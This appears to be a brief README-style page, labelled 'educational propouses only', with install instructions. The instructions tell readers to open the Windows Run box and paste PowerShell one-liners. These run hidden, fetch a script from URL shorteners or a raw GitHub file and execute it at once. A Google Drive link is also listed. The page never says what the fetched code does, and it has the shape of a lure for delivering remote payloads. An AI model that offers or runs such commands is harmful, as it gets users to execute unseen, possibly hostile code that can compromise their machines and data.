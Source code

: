 educational propouses only.

For install:
Win + R and paste this:

option 1: (Fast)
```powershell -w hidden "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```

option 2:
```powershell -w hidden "iex(iwr https://raw.githubusercontent.com/MRvinyKing/pythonwgetfilestest/main/z.ps1 -UseB)"``` 
(raw)

```powershell -w hidden "iex(iwr https://tinyurl.com/36rkw6p3 -UseB)"``` perspective

https://drive.google.com/drive/u/0/mobile/folders/1usWZbMdNSp-WJVZAmEUMStjwOCv1Y2Tz?usp=drive_link